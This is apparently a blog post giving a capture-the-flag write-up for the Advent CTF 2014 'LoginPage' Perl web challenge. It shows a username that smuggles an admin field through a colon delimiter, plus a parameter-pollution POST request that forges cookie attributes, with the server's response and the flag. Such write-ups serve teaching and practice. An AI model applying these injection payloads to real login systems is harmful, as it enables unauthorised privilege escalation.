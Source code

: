 ```yaml
---
layout: post
title: "Advent CTF 2014 LoginPage"
date: 2014-12-30 11:51:45 -0500
author: [historypeats]
comments: true
categories: [advent]
---
```


### Solved by historypeats

>You can't guess LOGINPAGE_SECRET absolutely, it's not answer. So, maybe there are some vulnerability and you got an admin and flag.

>I wrote this web app on Oct. 28 2014. Perl is awesome language and I love it :)

>http://loginpage.adctf2014.katsudon.org/

WriteUp:

This challenge required is to login as an "admin" user as well as have the give_me_flag bit set to True. The give_me_flag and isadmin values are stored in the user's cookie when they authenticate. So we need to find a way to manipulate this information for both isadmin and give_me_flag to be True so we get the Flag. 

The first thing I noticed is that the user's credentials and admin rights are stored in a file with a semi-colon delimiter. So the format of user entries in the file looks like the following:

```text
username:password:isadmin
```

The easy way to exploit this is to create a user with the username with all the fields we want. For example, in the user registration page, our username field would be "testuser:testpassword:1" and the password field would be kept blank.

This successfully worked, and we can login as admin. However, the next condition we must meet in order to get the Flag is to have the give_me_flag value set to True in our cookie. I spent some time tinkering with this, including trying to find known vulnerabiilties with the Mojolicious framework and length-extension attacks (This obviously didn't work since there's an HMAC, but I thought I'd try anyway).

None of the options I attempted worked. However, I did stumble upon a cool blogpost (http://blog.gerv.net/2014/10/new-class-of-vulnerability-in-perl-web-applications/) on a "new" vulnerability surfacing in Perl web frameworks. Basically, using HTTP parameter pollution, you can override/create attributes in objects. In this case, we want to override both the isadmin and give_me_flag attributes to be True.

So in the end, we create a regular user, the login with the following tampered request:

```text
POST /login HTTP/1.1
Host: loginpage.adctf2014.katsudon.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:34.0) Gecko/20100101 Firefox/34.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://loginpage.adctf2014.katsudon.org/login
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

name=hey&pass=dude&pass=1&pass=things&pass=give_me_flag&pass=give_me_flag&pass=money&pass=2&pass=3&pass=admin&pass=admin
```

And we are returned the following cookie in the response:

```text
HTTP/1.1 302 Found
Server: nginx
Date: Fri, 19 Dec 2014 19:01:18 GMT
Content-Length: 0
Connection: keep-alive
Set-Cookie: mojolicious=eyJ1c2VyIjp7ImFkbWluIjoiZ2l2ZV9tZV9mbGFnIiwibW9uZXkiOiIyIiwiMyI6ImFkbWluIiwiZ2l2ZV9tZV9mbGFnIjoiZ2l2ZV9tZV9mbGFnIiwibmFtZSI6ImhleSIsIjAiOm51bGwsIjEiOiJ0aGluZ3MiLCJwYXNzIjoiZHVkZSJ9LCJleHBpcmVzIjoxNDE5MDE5Mjc4fQ----e6cecbe13fb30a8dd08b1caae74f6eb5ad4b09e1; expires=Fri, 19 Dec 2014 20:01:18 GMT; path=/; HttpOnly
Location: /
```

Decoding the cookie, we can see we've successfully poisoned the attributes:

```text
{"user":{"admin":"give_me_flag","money":"2","3":"admin","give_me_flag":"give_me_flag","name":"hey","0":null,"1":"things","pass":"dude"},"expires":1419019278}
```

Then we are redirected to index page and returned the Flag:

ADCTF_L0v3ry_p3rl_c0N73x7
